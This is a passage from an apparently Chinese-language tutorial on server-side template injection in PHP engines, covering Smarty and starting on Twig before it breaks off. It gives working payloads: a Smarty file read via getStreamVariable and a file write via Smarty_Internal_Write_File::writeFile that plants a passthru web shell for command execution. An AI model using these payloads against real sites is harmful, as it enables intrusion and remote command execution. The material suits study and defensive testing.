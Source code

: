 ##### **1.Smarty**

Smarty是最流行的PHP模板语言之一，为不受信任的模板执行提供了安全模式。这会强制执行在 php 安全函数白名单中的函数，因此我们在模板中无法直接调用 php 中直接执行命令的函数(相当于存在了一个disable_function)

但是，实际上对语言的限制并不能影响我们执行命令，因为我们首先考虑的应该是模板本身，恰好 Smarty 很照顾我们，在阅读模板的文档以后我们发现：$smarty内置变量可用于访问各种环境变量，比如我们使用 self 得到 smarty 这个类以后我们就去找 smarty 给我们的好用的方法

比如：[getStreamVariable()](https://github.com/smarty-php/smarty/blob/fa269d418fb4d3687558746e67e054c225628d13/libs/sysplugins/smarty_internal_data.php#L385)

github 中明确指出，这个方法可以获取传入变量的流（说人话就是读文件）

**payload:**

```
{self::getStreamVariable("file:///proc/self/loginuid")}
```

再比如：[class Smarty_Internal_Write_File](https://github.com/smarty-php/smarty/blob/fa269d418fb4d3687558746e67e054c225628d13/libs/sysplugins/smarty_internal_write_file.php#L16)

有了上面的读文件当然要找一个写文件的了，这个类中有一个writeFile方法

**函数原型：**

```
public function writeFile($_filepath, $_contents, Smarty $smarty)
```

但是这个第三个参数是一个 Smarty 类型，后来找到了 `self::clearConfig()`

**函数原型：**

```
public function clearConfig($varname = null)
{
    return Smarty_Internal_Extension_Config::clearConfig($this, $varname);
}
```

能写文件对攻击者真的是太有利了，一般不出意外能直接 getshell

**payload：**

```url
Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

##### **2.Twig**

相比于 Smarty ,Twig 无法调用静态方法，并且所有函数的返回值都转换为字符串，也就是我们不能使用 `self::` 调用静态变量了，但是 通过[官方文档](https://twig.symfony.com/doc/2.x/templates.html)的查询

**如下图所示：**

![0WKtxK.png](https://s1.ax1x.com/2020/10/12/0WKtxK.png)

Twig 给我们提供了一个 `_self`, 虽然 `_self` 本身没有什么有用的方法，但是却有一个 env
